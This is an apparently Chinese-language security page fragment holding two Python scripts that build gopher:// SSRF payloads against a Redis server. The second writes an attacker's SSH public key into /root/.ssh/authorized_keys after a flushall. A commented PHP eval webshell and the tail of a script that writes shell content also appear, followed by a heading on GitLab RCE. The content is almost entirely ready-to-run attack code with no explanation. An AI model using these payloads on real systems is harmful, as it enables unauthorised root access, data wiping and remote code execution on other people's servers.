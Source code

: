 ```python
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```
	authorized_keys
```python
import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379"
# shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
sshpublic_key = "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8IOnJUAt5b/5jDwBDYJTDULjzaqBe2KW3KhqlaY58XveKQRBLrG3ZV0ffPnIW5SLdueunb4HoFKDQ/KPXFzyvVjqByj5688THkq1RJkYxGlgFNgMoPN151zpZ+eCBdFZEf/m8yIb3/7Cp+31s6Q/DvIFif6IjmVRfWXhnkjNehYjsp4gIEBiiW/jWId5yrO9+AwAX4xSabbxuUyu02AQz8wp+h8DZS9itA9m7FyJw8gCrKLEnM7PK/ClEBevDPSR+0YvvYtnUxeCosqp9VrjTfo5q0nNg9JAvPMs+EA1ohUct9UyXbTehr1Bdv4IXx9+7Vhf4/qwle8HKali3feIZ root@kali\n\n"
filename="authorized_keys"
path="/root/.ssh/"
passwd=""
cmd=["flushall",
     "set 1 {}".format(sshpublic_key.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```
 ###### 通过 Git 协议在 GitLab 上进行 RCE